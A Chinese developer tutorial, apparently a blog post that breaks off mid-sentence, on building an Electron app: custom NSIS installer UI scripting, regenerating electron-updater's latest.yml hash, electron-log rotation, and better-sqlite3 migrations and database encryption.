<RichEdit name="editDir" text="" textcolor="0xFF000000" inset="5,8,2,2" bkimage="public\edit\edit0.png" autohscroll="false" bordervisible="true" bordersize="1" bordercolor="0xFFD1D1D1" focusbordercolor="0xFFD1D1D1" wantreturn="false" wantctrlreturn="false" multiline="false" width="360" />-
nsh中设置默认安装路径
nsNiuniuSkin::SetControlAttribute $hInstallDlg "editDir" "text" "$INSTDIR\" -
获取路径输入框中的文本
nsNiuniuSkin::GetControlAttribute $hInstallDlg "editDir" "text" Pop $0 StrCpy $INSTDIR "$0"
-
-
禁用和激活 UI 比如通过许可协议的勾选来控制按钮的禁用与激活
#根据选中的情况来控制按钮是否灰度显示 Function OnCheckLicenseClick nsNiuniuSkin::GetControlAttribute $hInstallDlg "chkAgree" "selected" Pop $0 ${If} $0 == "0" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnInstall" "enabled" "true" ${Else} nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnInstall" "enabled" "false" ${EndIf} FunctionEnd -
Slider 进度条
<Slider name="slrProgress" padding="30,0,30,0" height="3" mouse="false" foreimage="form\fg.png" bkimage="form\bg.png" thumbsize="0,0" bkcolor="#FFD8D8D8" />-
nsh中更新进度条
nsNiuniuSkin::SetControlAttribute $hInstallDlg "slrProgress" "value" "$0"
-
-
页面切换 安装程序会有多个页面，比如安装向导界面、安装中界面、安装完成界面等，每个界面有对应的ID我们需要在逻辑中做界面切换。在 install.xml 中会先配置好这些界面的 xml，如下
<TabLayout name="wizardTab" > <Include source="configpage.xml" /> <Include source="installingpage.xml" /> <Include source="finishpage.xml" /> <Include source="uninstallpage.xml" /> <Include source="uninstallingpage.xml" /> <Include source="uninstallfinishpage.xml" /> </TabLayout>- 在代码中，定义好它们的 ID
!define INSTALL_PAGE_CONFIG 0 !define INSTALL_PAGE_PROCESSING 1 !define INSTALL_PAGE_FINISH 2 !define INSTALL_PAGE_UNISTCONFIG 3 !define INSTALL_PAGE_UNISTPROCESSING 4 !define INSTALL_PAGE_UNISTFINISH 5 - 然后通过接口进行切换界面
nsNiuniuSkin::ShowPageItem $hInstallDlg "wizardTab" ${INSTALL_PAGE_PROCESSING}
- 在代码中，定义好它们的 ID
-
路径选择 用户可以选择自定义安装，选择安装的路径，我们可以调用 nsNiuniuSkin::SetControlAttribute 这个接口弹出路径选择窗口
Function OnBtnSelectDir nsNiuniuSkin::SelectInstallDirEx $hInstallDlg "请选择安装路径" Pop $0 # 如果选择路径不为空，则赋值到editDir这个编辑框中，注意Unless的含义，它等价于if的否 ${Unless} "$0" == "" nsNiuniuSkin::SetControlAttribute $hInstallDlg "editDir" "text" $0 ${EndUnless} FunctionEnd -
弹出提示框 比如关闭安装程序的时候弹出提示框 对应的布局 xml 文件是 msgBox.xml
Function ShowMsgBox nsNiuniuSkin::InitSkinSubPage "msgBox.xml" "btnOK" "btnCancel,btnClose" ; "提示" "${PRODUCT_NAME} 正在运行，请退出后重试!" 0 Pop $hInstallSubDlg nsNiuniuSkin::SetControlAttribute $hInstallSubDlg "lblTitle" "text" "提示" nsNiuniuSkin::SetControlAttribute $hInstallSubDlg "lblMsg" "text" "$R8" ${If} "$R7" == "1" nsNiuniuSkin::SetControlAttribute $hInstallSubDlg "btnCancel" "visible" "true" ${EndIf} FunctionEnd- $R8 变量存放显示的文本，$R7 变量控制是否显示取消按钮
#安装界面点击退出，给出提示 Function OnExitDUISetup ${If} $InstallState == "0" StrCpy $R8 "安装尚未完成，您确定退出安装么？" StrCpy $R7 "1" Call ShowMsgBox pop $0 ${If} $0 == 0 goto endfun ${EndIf} ${EndIf} nsNiuniuSkin::ExitDUISetup endfun: FunctionEnd
- $R8 变量存放显示的文本，$R7 变量控制是否显示取消按钮
-
获取和修改界面 UI 控件的属性 每个 UI 控件都有各自的属性，比如 visible、pos、height 等。安装程序运行中，我们需要根据情况动态修改 UI 控件的属性，点击下拉和收起按钮，我们需要对应得调整窗口
# 展开 Function OnBtnShowMore nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnShowMore" "enabled" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnHideMore" "enabled" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "moreconfiginfo" "visible" "true" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnHideMore" "visible" "true" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnShowMore" "visible" "false" # 调整窗口高度 GetFunctionAddress $0 StepHeightSizeAsc BgWorker::CallAndWait FunctionEnd # 收起 Function OnBtnHideMore nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnShowMore" "enabled" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnHideMore" "enabled" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "moreconfiginfo" "visible" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnHideMore" "visible" "false" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnShowMore" "visible" "true" ;调整窗口高度 GetFunctionAddress $0 StepHeightSizeDsc BgWorker::CallAndWait nsNiuniuSkin::SetWindowSize $hInstallDlg 600 390 nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnShowMore" "enabled" "true" nsNiuniuSkin::SetControlAttribute $hInstallDlg "btnHideMore" "enabled" "true" FunctionEnd -
UI 控件常用的属性
| 属性名 | 数据类型 | 默认值 | 描述 |
|---|---|---|---|
| pos | RECT | 0,0,0,0 | 位置 |
| padding | RECT | 0,0,0,0 | 内边距 |
| bkcolor | DWORD | 0x00000000 | 背景颜色 |
| bordercolor | DWORD | 0x00000000 | 边框颜色 |
| focusbordercolor | DWORD | 0x00000000 | 获得焦点时边框的颜色 |
| bordersize | INT或RECT | 0 | 边框大小，可以用INT也可以用RECT |
| leftbordersize | INT | 0 | 左边边框大小 |
| topbordersize | INT | 0 | 顶部边框大小 |
| rightbordersize | INT | 0 | 右边边框大小 |
| bottombordersize | INT | 0 | 底部边框大小 |
| borderstyle | INT | 0 | 边框样式，数值范围0~5 |
| borderround | SIZE | 0,0 | 边框圆角半径，如(2,2) |
| bkimage | STRING | "" | 背景图片 |
| width | INT | 0 | 宽度 |
| height | INT | 0 | 高度 |
| minwidth | INT | 0 | 最小宽度 |
| minheight | INT | 0 | 最小高度 |
| maxwidth | INT | 0 | 最大宽度 |
| maxheight | INT | 0 | 最大高度 |
| text | STRING | "" | 显示的文本 |
| tooltip | STRING | "" | 鼠标悬停提示文本 |
| enabled | BOOL | true | 是否响应用户操作 |
| mouse | BOOL | true | 是否响应鼠标操作 |
| visible | BOOL | true | 是否可见 |
| float | BOOL | false | 是否使用绝对定位 |
参考链接
解决自定义 nsis 安装包带来的全量升级问题
-
之前依赖
electron-builder和electron-updater的升级，会因为使用了自定义 nsis 安装包而失败- 因为
electron-updater的升级是依赖其根据electron-builder自己生成的 nsis 安装包计算出来的文件哈希值，所以 latest.yml 文件中的哈希值就和自定义 nsis 包不匹配了，因此会导致检测升级失败
- 因为
-
解决方案就是自己重新计算自定义 nsis 包的哈希值，然后重新生成 latest.yml 文件
步骤
-
去扒
electron-builder的源码packages\electron-updater\src\DownloadedUpdateHelper.ts文件中有这样一段代码，这其实就是electron-builder内部计算安装包文件哈希值的方法import { createHash } from 'crypto'; import { createReadStream } from 'fs'; /** * 计算文件的哈希值（异步函数） * @param file 要计算哈希值的文件路径 * @param algorithm 哈希算法，默认为 'sha512' * @param encoding 输出结果的编码格式，支持 'base64' 或 'hex'，默认为 'base64' * @param options 传递给文件读取流的可选参数 * @returns 返回包含哈希值的Promise对象 */ function hashFile( file: string, algorithm = 'sha512', encoding: 'base64' | 'hex' = 'base64', options?: any ): Promise<string> { // 返回Promise对象以支持异步操作 return new Promise<string>((resolve, reject) => { // 使用指定的算法创建哈希对象 const hash = createHash(algorithm); // 监听哈希过程中的错误，并将错误传递给reject // 同时设置哈希结果的输出编码格式 hash.on('error', reject).setEncoding(encoding); // 创建文件读取流，以流的方式处理文件（适合大文件） createReadStream(file, { // 合并用户传入的选项 ...options, // 设置每次读取的缓冲区大小为1MB（1024*1024字节） // 较大的缓冲区可以提高处理速度，减少I/O操作次数 highWaterMark: 1024 * 1024 /* better to use more memory but hash faster */, }) // 监听文件读取过程中的错误 .on('error', reject) // 当文件读取完成时触发 .on('end', () => { // 结束哈希计算 hash.end(); // 读取哈希结果并通过resolve返回 resolve(hash.read() as string); }) // 将文件流通过管道传递给哈希对象进行处理 // { end: false } 表示文件流结束时不自动结束哈希计算，需要手动调用hash.end() .pipe(hash, { end: false }); }); } -
解决了核心问题哈希值的计算 ，现在我们就可以来写一个一键脚本的流程来制作打包的流程
- 获取 package.json 中的 version，修改自定义 nsis 脚本中的版本号为 version
- 编译主进程和渲染进程代码，然后启动
electron-builder打包 win-unpacked生成成功，触发afterPack钩子函数，执行afterPack脚本，复制win-unpacked文件夹中的文件到FilesToInstall中，然后启动一个子进程，执行批处理脚本开始做自定义 nsis 打包- 自定义 nsis 打包成功后，使用 hashFile 方法计算新的安装包的哈希值，并生成对应的
latest.yml的文件
-
下面是
beforePack.cjs，作用是修改 nsis 中的版本号const fs = require('fs'); const path = require('path'); function updateNsiVersion(nsiFilePath, newVersion, pkgVersion) { try { const fileContentBuffer = fs.readFileSync(nsiFilePath); let fileContent = fileContentBuffer.toString('utf16le'); const versionRegex = /(!define PRODUCT_VERSION\s+)"[^"]+"/; const productVersionRegex = /(!define PRODUCT_SHOW_VERSION\s+)"[^"]+"/; const updatedContent = fileContent .replace(versionRegex, `$1"${newVersion}"`) .replace(productVersionRegex, `$1"${pkgVersion}"`); const contentBuffer = Buffer.from(updatedContent, 'utf16le'); fs.writeFileSync(nsiFilePath, contentBuffer); console.log( ` • nsi version updated successfully! New version: ${newVersion}` ); } catch (error) { console.error(`Failed to update version: ${error.message}`); process.exit(1); } } const packageJsonPath = path.join(__dirname, '../package.json'); const packageInfo = require(packageJsonPath); const appName = packageInfo.name; const version = packageInfo.version; const nsiFile = path.resolve( __dirname, '../nsis_publish/SetupScripts/nim/nim_setup.nsi' ); const targetVersion = `${version}.0`; console.log(` • targetVersion ${targetVersion}`); updateNsiVersion(nsiFile, targetVersion, version); -
下面是
afterPack.cjs文件，用于afterPack钩子触发后启动子进程调起批处理脚本const fsSync = require('fs'); const path = require('path'); const child = require('child_process'); const fs = require('fs-extra'); const afterAllArtifactBuild = require('./afterAllArtifactBuild.cjs'); const { copyDirectory, moveToDirectory, getExeFilePaths, sortFilesByVersion, } = require('./utils.cjs'); module.exports = async () => { const source = path.join(__dirname, '../out/win-unpacked'); const dest = path.join(__dirname, '../nsis_publish/FilesToInstall'); await copyDirectory(source, dest); console.log(` • copy win-unpacked dir successful: ${source} -> ${dest}`); const out = fsSync.openSync(path.join(__dirname, '../out.log'), 'a'); const err = fsSync.openSync(path.join(__dirname, '../out.log'), 'a'); const batPath = path.join(__dirname, '../nsis_publish/build-nim.bat'); const batDir = path.dirname(batPath); const ch = child.spawn(batPath, [], { detached: true, shell: true, stdio: ['ignore', out, err], cwd: batDir, }); ch.on('exit', async code => { console.log(` • child process exit，code: ${code}`); const dest = path.join(__dirname, '../out'); const targetDir = path.join(__dirname, '../nsis_publish/Output/'); const exefiles = await getExeFilePaths(targetDir); const sortfiles = sortFilesByVersion(exefiles, false); try { await moveToDirectory(sortfiles[0], dest); (async () => { await new Promise(resolve => setTimeout(resolve, 2000)); })(); console.log(' • move final installer file successful'); afterAllArtifactBuild(); } catch (err) { console.log(` • move final installer file error: ${err.message}`); throw err; } }); ch.on('error', err => { console.error(' • child process failed:', err); }); }; -
下面是
afterAllArtifactBuild.cjs用于计算新安装包文件的哈希值并生成latest.yml文件const { statSync, writeFileSync } = require('node:fs'); const path = require('path'); const { hashFile } = require('./utils.cjs'); module.exports = async () => { const packageJsonPath = path.join(__dirname, '../package.json'); const packageInfo = require(packageJsonPath); const appName = packageInfo.name; const version = packageInfo.version; const installerName = `${appName}_V${version}.exe`; const installerPath = path.join(__dirname, `../out/${installerName}`); const hash = await hashFile(installerPath, undefined, undefined, { highWaterMark: 1024 * 1024 * 10, }); const fileStats = statSync(installerPath); const fileSize = fileStats.size; const releaseDate = new Date().toISOString(); const yamlContent = [ `version: ${version}`, `files:`, ` - url: ${installerName}`, ` sha512: ${hash}`, ` size: ${fileSize}`, `path: ${installerName}`, `sha512: ${hash}`, `releaseDate: '${releaseDate}'`, ].join('\n'); const ymlFilePath = path.join(__dirname, '../out/latest.yml'); writeFileSync(ymlFilePath, yamlContent, 'utf8'); console.log(` • Successfully generated ${ymlFilePath}`); console.log(` • Version: ${version}`); console.log(` • Installer: ${installerName}`); console.log(` • File size: ${fileSize} bytes`); }; -
至此，我们就解决了自定义 nsis 打包带来的全量升级失效的问题
参考链接
- electron-updater DownloadedUpdateHelper.ts hashFile 方法所在的源码文件
- nodejs crypto.createHash(algorithm[, options])
集成日志
主进程一般需要记录日志，方便查错。这里选用 electron-log 这个库。electron-log 官方没有提供日志滚动的功能，需要通过 archiveLogFn 自己实现
import { app } from 'electron';
import path from 'node:path';
import { format } from 'date-fns';
import fs from 'node:fs';
import log from 'electron-log';
let isInitialized = false;
let fileLimit = 5; // 日志文件保留的最大数量（超过会自动删除旧文件）
function initLogger(): any {
if (isInitialized) {
return log;
}
log.transports.file.level = 'info'; // 文件日志只记录 'info' 及以上级别（info/warn/error）
log.transports.console.level = 'silly'; // 控制台日志记录所有级别（最详细）
const logPath = path.join(
app.getPath('userData'), // Electron 获取应用数据目录
'logs', // 日志文件夹名称
`app-${format(new Date(), 'yyyy-MM-dd')}.log` // 日志文件名（包含当前日期，如 app-2023-10-01.log）
);
// 当日志文件达到最大尺寸时，自动对日志进行归档和清理
// 检查当前日志文件是否存在，不存在则跳过
// 查找同目录下所有同前缀的日志文件（如 app-2023-10-01.log、app-2023-10-01.1.log 等）
// 对日志文件按序号排序（0 是最新，1 是前一天，以此类推）
// 循环处理文件：
// 序号 +1（如 app-xxx.log → app-xxx.1.log，app-xxx.1.log → app-xxx.2.log）
// 超过 fileLimit（5 个）的旧文件直接删除
const archiveLog = (filePath: any) => {
try {
const filePathStr = filePath.toString();
if (!fs.existsSync(filePathStr)) {
console.warn(`log file doesn't exists, skip the rotate: ${filePath}`);
return;
}
const info = path.parse(filePathStr);
const baseName = info.name;
const ext = info.ext;
const dir = info.dir;
const allFiles = fs
.readdirSync(dir)
.filter(file => {
return file.startsWith(baseName) && file.endsWith(ext);
})
.map(file => path.join(dir, file));
const getFileIndex = (file: string) => {
const name = path.parse(file).name;
const match = name.match(/\.(\d+)$/);
return match ? parseInt(match[1], 10) : 0;
};
allFiles.sort((a, b) => getFileIndex(a) - getFileIndex(b));
for (let i = allFiles.length - 1; i >= 0; i--) {
const currentFile = allFiles[i];
const currentIndex = getFileIndex(currentFile);
const newIndex = currentIndex + 1;
if (newIndex > fileLimit) {
fs.unlinkSync(currentFile);
continue;
}
const newFileName = `${baseName}.${newIndex}${ext}`;
const newFilePath = path.join(dir, newFileName);
if (fs.existsSync(newFilePath)) {
fs.unlinkSync(newFilePath);
}
fs.renameSync(currentFile, newFilePath);
}
} catch (e) {
console.error('log rotate failed:', e);
}
};
log.transports.file.archiveLogFn = archiveLog; // 绑定日志轮转函数
log.transports.file.resolvePathFn = () => logPath; // 自定义日志文件路径
log.transports.file.maxSize = 1024 * 1024 * 10; // 单个日志文件最大尺寸（10MB）
log.transports.file.format =
'[{y}-{m}-{d} {h}:{i}:{s}.{ms}] [{level}] {text}'; // 日志格式
isInitialized = true;
return log;
}
export default initLogger();
参考链接
集成 sqlite 数据库
- 桌面应用很多情况都要用到数据库来管理数据，这里使用嵌入式数据库
sqlite
| 核心优点 | 详细说明 |
|---|---|
| 轻量级，零配置 | 1. 嵌入式数据库，无需独立安装服务器进程，仅需一个动态库（.dll/.so）即可运行，随软件打包分发； 2. 数据库以单一文件（.db/.sqlite）存在，便于管理、备份和迁移（直接复制文件即可）。 |
| 跨平台兼容性 | 支持 Windows、macOS、Linux 等主流桌面系统，数据库文件格式在不同平台间通用，无跨系统数据兼容问题。 |
| 低资源占用 | 内存和 CPU 消耗极低，适合硬件配置有限的设备（如老旧电脑、嵌入式设备），不影响桌面软件运行性能。 |
| ACID 事务支持 | 具备完整的事务特性（原子性、一致性、隔离性、持久性），避免意外断电或崩溃导致的数据损坏，保障数据操作安全。 |
| 无需网络依赖 | 数据存储在本地，读写无需网络，适合离线使用场景，且本地访问速度远快于远程数据库。 |
| 开源免费 | 遵循 Public Domain 协议，可免费用于商业软件，无需支付授权费用，显著降低开发成本。 |
| 丰富的编程语言支持 | 兼容几乎所有主流编程语言（C/C++、Python、Java、C#、Node.js 等），均有成熟驱动，集成难度低。 |
- ndoejs 的 sqlite3 这个包已经渐渐不维护了，所以这里选用 better-sqlite3 这个包
数据库升级问题
-
引入了数据库，就难免发生数据库的结构升级，比如字段的新增，这时候就需要实现数据库的升级逻辑
- 首先添加一张
db_version表，用来存下当前数据库的版本号 - 把升级的 sql 脚本按照对应版本号，按照顺序存储在一个数组中
- 实现数据库文件的备份逻辑，在数据库连接之前备份数据库文件，或者调用
db.backup方法备份 - 从
db_version表中获取当前数据库版本，如果没有数据则返回0.0.0，和当前数据库版本对比（就是当前应用版本，app.getVersion()），如果数据库版本和当前版本一样，则不需要升级；否则获取migrations中包含所有升级版本的 sql 逻辑的数组，判断是否存在更新版本的升级逻辑，过滤掉更低的版本，如果存在就开始按照版本顺序依次执行 sql 升级，否则不需要升级
- 首先添加一张
-
下面是为 DB 类增加了升级的逻辑
import sqlite from 'better-sqlite3'; import { ConfigModel } from './entities/config.js'; import { DBVersionModel } from './entities/db_version.js'; import { app } from 'electron'; import path from 'node:path'; import fs from 'node:fs'; // 版本比较工具函数，用于判断版本高低（如 1.0.1 > 1.0.0） import { compareVersion } from '../utils.js'; // 错误日志工具 import { logErrorInfo } from '../utils.js'; import { ModelInstance } from './orm.js'; // 数据库迁移脚本集合，每个迁移脚本包含版本号和升级逻辑 import { migrations } from './migrations.js'; // 数据库表映射类型，定义支持的表名及对应模型实例类型 type TableMap = { configs: ModelInstance<any>; db_version: ModelInstance<any>; }; // 检查是否需要升级的返回类型 type NeedUpgrade = { res: boolean; // 是否需要升级 migrations: any[]; // 需要执行的迁移脚本列表 }; /** * 数据库核心类，负责数据库连接、表初始化、备份、升级等核心操作 */ export class DB { db: sqlite.Database; // sqlite数据库实例 dbPath: string; // 数据库文件路径 currentDBVersion: string | undefined; // 当前数据库版本 backupDBForUpgradePath: string | undefined; // 升级前的备份文件路径 // 存储表名与模型实例的映射关系 tables: Map<keyof TableMap, ModelInstance<any>> = new Map(); /** * 构造函数，初始化数据库连接 * @param options sqlite配置项 */ constructor(options: sqlite.Options) { const dbPath = this.getDatabasePath(); // 创建sqlite实例，开启日志输出 const db = new sqlite(dbPath, { verbose: console.log, ...options }); this.db = db; this.dbPath = dbPath; } /** * 初始化数据库表结构 * @param models 模型实例列表（每个模型对应一个表） */ init(models: ModelInstance<any>[]) { models.forEach((instance: ModelInstance<any>) => { // 调用模型的创建表方法（若表不存在则创建） instance.createTable(); // 将表名与模型实例关联存储 this.tables.set(instance.table as keyof TableMap, instance); }); } /** * 获取指定表的模型实例 * @param name 表名 * @returns 对应的模型实例 */ getTable<K extends keyof TableMap>(name: K): ModelInstance<any> { return this.tables.get(name) as ModelInstance<any>; } /** * 获取数据库文件存储路径 * 优先使用已存在的路径，否则在用户数据目录下创建database文件夹并生成app.db路径 * @returns 数据库文件路径 */ getDatabasePath(): string { if (this.dbPath) { return this.dbPath; } const userDataPath = app.getPath('userData'); // 获取electron应用的用户数据目录 const dbDir = path.join(userDataPath, 'database'); // 若数据库目录不存在则创建（递归创建父目录） if (!fs.existsSync(dbDir)) { fs.mkdirSync(dbDir, { recursive: true }); } const dbPath = path.join(dbDir, 'app.db'); log.info(`dbPath: ${dbPath}`); return dbPath; } /** * 升级前备份数据库文件 * 生成带时间戳的备份文件（如 app.db.backup-1620000000000） */ async backupDBForUpgrade() { const backupPath = `${this.dbPath}.backup-${new Date().getTime()}`; try { // 调用sqlite的备份方法创建备份 await this.db.backup(backupPath); this.backupDBForUpgradePath = backupPath; log.info(`backup DB file for upgrade successfule：${backupPath}`); } catch (err) { logErrorInfo('backup DB file for upgrade failed:', err); } } /** * 升级失败时恢复数据库备份 * 查找最新的备份文件（按时间戳倒序），覆盖当前数据库文件 */ restoreBackup() { log.info(`restore backup db`); // 查找当前数据库目录下所有备份文件（以app.db.backup-为前缀） const backupFiles = fs .readdirSync(path.dirname(this.dbPath)) .filter(f => f.startsWith(path.basename(this.dbPath) + '.backup-')) .sort((a, b) => b.localeCompare(a)); // 按文件名倒序（最新的备份在前面） if (backupFiles.length === 0) { log.error(`no backup DB file`); return; } log.info(`restore backup db: ${backupFiles[0]}`); try { const latestBackup = path.join( path.dirname(this.dbPath), backupFiles[0] ); log.info( `latestBackup: ${latestBackup} \n this.dbPath: ${this.dbPath}` ); // 复制最新备份到当前数据库路径（使用文件克隆优化性能） fs.copyFileSync( latestBackup, this.dbPath, fs.constants.COPYFILE_FICLONE ); log.info(`restore backup successful：${latestBackup}`); // 恢复后删除备份文件 fs.unlinkSync(latestBackup); log.info(`unlink latestBackup successful: ${latestBackup}`); } catch (err: any) { logErrorInfo('restore backup failed:', err); } } /** * 检查数据库是否需要升级 * 1. 从db_version表获取当前数据库版本 * 2. 筛选出比当前版本高的迁移脚本 * 3. 返回是否需要升级及对应的迁移脚本 * @returns 是否需要升级的结果 */ checkUpgrade(): NeedUpgrade { // 获取db_version表的模型实例（用于查询/更新数据库版本） const dbVersionRepository: ModelInstance<any> = this.getTable('db_version'); const allDBVersions = dbVersionRepository.findAll(); // 查询所有版本记录（通常只有一条） log.info(`db upgrade allDBVersions: ${JSON.stringify(allDBVersions)}`); let currentDBVersion = ''; if (allDBVersions.length > 0) { // 若存在版本记录，取第一条的version字段 currentDBVersion = allDBVersions[0].version; log.info(`db upgrade currentDBVersion: ${currentDBVersion}`); } else { // 若不存在版本记录（首次初始化），插入初始版本0.0.0 const newDBVersion = dbVersionRepository.upsert( { version: '0.0.0', }, { conflictPaths: ['version'], // 若version冲突则不插入 skipUpdateIfNoValuesChanged: true, } ); currentDBVersion = newDBVersion.version; log.info(`db upgrade first insert db version 0.0.0`); } this.currentDBVersion = currentDBVersion; // 筛选出所有版本高于当前数据库版本的迁移脚本 const filteredMigrations = migrations.filter( i => compareVersion(i.version, currentDBVersion) > 0 ); log.info( `db upgrade filteredMigrations: ${JSON.stringify(filteredMigrations)}` ); // 按版本号升序排序迁移脚本（确保低版本迁移先执行） const sortMigrations = filteredMigrations.sort((a, b) => compareVersion(a.version, b.version) ); log.info(`db upgrade sortMigrations: ${JSON.stringify(sortMigrations)}`); // 若没有需要执行的迁移脚本 if (sortMigrations.length <= 0) { log.info(`db current is latest version`); // 若存在备份文件则删除（无需升级，备份无用） if (this.backupDBForUpgradePath) { fs.promises .unlink(this.backupDBForUpgradePath) .then() .catch(err => { logErrorInfo( `db current is latest version unlink backup failed`, err ); }); } return { res: false, migrations: [], }; } // 需要升级，返回迁移脚本列表 return { res: true, migrations: sortMigrations, }; } /** * 执行数据库升级逻辑 * 1. 检查是否需要升级 * 2. 若需要，按顺序执行迁移脚本（事务保证原子性） * 3. 升级成功则更新数据库版本为应用当前版本；失败则恢复备份 */ upgrade() { const { res, migrations } = this.checkUpgrade(); if (res) { const dbVersionRepository: ModelInstance<any> = this.getTable('db_version'); let hasErr: boolean = false; // 标记升级过程是否出错 // 遍历迁移脚本，按顺序执行升级 for (const upgrade of migrations) { try { log.info(`upgrade version ${upgrade.version} begain`); // 使用事务执行当前迁移脚本（确保升级操作的原子性，出错可回滚） const transaction = this.db.transaction(() => { upgrade.up(this.db); // 调用迁移脚本的up方法执行具体升级操作 }); transaction(); } catch (err) { hasErr = true; // 标记出错 logErrorInfo( `upgrade version ${upgrade.version} failed, will roll back to version ${this.currentDBVersion}`, err ); break; // 中断迁移流程 } } if (!hasErr) { // 升级成功：更新数据库版本为应用版本（electron的app.getVersion()） const newVersion = app.getVersion(); log.info(`db upgrade successful current version: ${newVersion}`); // 清除旧版本记录，插入新版本 dbVersionRepository.deleteAll(); dbVersionRepository.upsert( { version: newVersion, }, { conflictPaths: ['version'], skipUpdateIfNoValuesChanged: true, } ); this.currentDBVersion = newVersion; // 升级成功后删除备份文件 if (this.backupDBForUpgradePath) { fs.promises .unlink(this.backupDBForUpgradePath) .then() .catch(err => { logErrorInfo( `db current is latest version unlink backup failed`, err ); }); } } else { // 升级失败：恢复到升级前的备份 this.restoreBackup(); } } } } let alreadyInitialized = false; // 标记数据库是否已初始化 /** * 初始化数据库入口函数 * 确保数据库只初始化一次，处理初始化流程：备份->初始化表->执行升级 * @returns 数据库实例或null（初始化失败） */ export function initializeDatabase(): null | DB { if (alreadyInitialized) { return global.db; } let db: DB; try { db = new DB({ verbose: global.log.info }); // 初始化流程：先备份数据库，再初始化表结构，最后执行升级 db.backupDBForUpgrade() .then(() => { // 初始化配置表和版本表 db.init([new ConfigModel(db.db), new DBVersionModel(db.db)]); db.upgrade(); // 执行升级检查和操作 }) .catch(err => { // 备份失败仍继续初始化表和升级（可能存在风险，但保证程序继续运行） logErrorInfo(`backupDBForUpgrade err`, err); db.init([new ConfigModel(db.db), new DBVersionModel(db.db)]); db.upgrade(); }); } catch (err) { logErrorInfo('db initialize failed', err); return null; } log.info(`db initialize successful`); global.db = db; // 挂载到全局对象 alreadyInitialized = true; return db; } -
下面是
migrations据库迁移脚本集合，每个迁移脚本包含版本号和升级逻辑import sqlite from 'better-sqlite3'; import { formatLocalTime } from '../utils.js'; const migrations = [ { version: '0.0.19', up: (db: sqlite.Database) => { // if already have data in table // ALTER TABLE configs ADD COLUMN create_at TEXT NOT NULL DEFAULT (DATETIME('now', 'localtime')) will cause error below // Cannot add a column with non-constant default // db.exec(` // ALTER TABLE configs // ADD COLUMN create_at TEXT NOT NULL DEFAULT (DATETIME('now', 'localtime')) // `); // db.exec(` // ALTER TABLE configs // ADD COLUMN update_at TEXT NOT NULL DEFAULT (DATETIME('now', 'localtime')) // `); const now: string = formatLocalTime(); global.log.info(`now: ${now}`); db.exec(` ALTER TABLE configs ADD COLUMN create_at TEXT NOT NULL DEFAULT '${now}' `); db.exec(` ALTER TABLE configs ADD COLUMN update_at TEXT NOT NULL DEFAULT '${now}' `); }, }, ]; export { migrations }; -
下面是新增加的
db_version表import { TableModel, ExtractData } from '../orm.js'; export class DBVersionModel extends TableModel<DBVersionSchema> { table = 'db_version'; schema: DBVersionSchema = { version: { type: 'text', primary: true, default: '0.0.0', }, create_at: { type: 'text', notNull: true, default: { raw: "DATETIME('now', 'localtime')" }, }, update_at: { type: 'text', notNull: true, default: { raw: "DATETIME('now', 'localtime')" }, }, }; } type DBVersionSchema = { version: { type: 'text'; primary: true; default: string; }; create_at: { type: 'text'; notNull: true; default: { raw: string }; }; update_at: { type: 'text'; notNull: true; default: { raw: string }; }; }; export type DBVersionData = ExtractData<DBVersionSchema>;
数据库加密
- 数据库中如果存储敏感数据，不希望数据被窃取，则需要对数据库文件加密。这里想到的方案是修改
better-sqlite3-multiple-ciphers的源码，编译自定义的 sqlite3 数据库以支持 AES 解密流程- 拉取
better-sqlite3-multiple-ciphers源码 - 生成 AES 秘钥（32 字节，64 位十六进制字符串），然后将其转换成字节数组，硬编码到数据库源码 C++ 代码中
- 修改数据库源码
JS_exec方法，此方法用于执行 sql 语句，增加劫持PRAGMA key='xxx'和PRAGMA rekey='xxx'的逻辑，使用之前硬编码的秘钥将 key 和 rekey 解密，得到密码原文，然后再传递给 sqlite 作为 db 文件的密码 - 编译修改好的数据库生成 .node 原生模块，之后使用时
this.db.exec("PRAGMA key='xxx'")exec 传递的 PRAGMA 语句都会被劫持然后走解密流程，可以使用 SQLiteStudio 软件打开加密的数据库，选择数据库类型为WxSQLite3，密码类型为sqleet: ChaCha20-Poly1305，然后输入明文密码即可打开数据库文件
- 拉取
flowchart TD A[先生成32字节随机秘钥,硬编码（需拆分成十六进制字符数组）到数据库交互层中] --> B[交互层中修改数据库交互层的JS_exec方法，添加解密逻辑，根据硬编码秘钥解密传入的加密字符串，获取到密码然后再传递给sqlite] B --> C[使用AES-256-CBC加密算法将密码明文加密（使用第一步生成的秘钥）] C --> D[加密好的字符串从electron主进程传入给数据库DB对象（exec方法sql语句形式）] D --> E[JS_exec接收到加密字符串，进行AES解密得到密码明文] E --> F[sqlite数据库使用密码明文来加密.db文件] F --> G[开发环境使用明文来解密查看.db数据库文件内容] H[AES-256-CBC加密流程] --> H1[生成使用 32 字节随机密钥] H1 --> H2[生成 16 字节随机IV] H2 --> H3[根据 IV 和 秘钥实例化加密器] H3 --> H4[通过 update 处理大部分明文，final 处理最后一块并完成填充，拼接得到完整密文] H4 --> H5[将 16 字节 IV 与密文拼接，作为最终加密结果]
better-sqlite3-multiple-ciphers
better-sqlite3-multiple-ciphers是增加了加密功能的better-sqlite3，使用了SQLite3MultipleCiphers以支持多种加密算法- 只需要安装
better-sqlite3-multiple-ciphers然后在代码里这样写就可以加密数据库文件了import Database from 'better-sqlite3-multiple-ciphers'; const db = new Database('foobar.db', options); db.pragma(`key='secret-key'`); - 这里的 key 的值就是密码明文，而我这里想要做的事情就是来劫持
better-sqlite3-multiple-ciphers的接口，然后我们可以传入加密后的字符串，然后在 c++ 代码中解密之后再拿到明文密码传递给 sqlite - 经过试验，最后成功修改了 db.exec 方法，可以实现解密 PRAGMA key 语句和 PRAGMA rekey 传递的加密字符串
实现
-
首先复制一份
